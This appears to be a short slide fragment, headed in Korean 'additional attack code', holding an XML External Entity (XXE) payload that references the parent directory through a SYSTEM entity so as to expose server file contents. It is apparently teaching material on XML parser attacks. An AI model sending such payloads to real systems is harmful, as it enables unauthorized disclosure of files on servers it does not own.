

# 추가적인 공격 코드
<?xml version="1.0"?>
<!DOCTYPE comment [ <!ENTITY rootpath SYSTEM "../"> ]>
<comment>
    <text>&rootpath;</text>
</comment>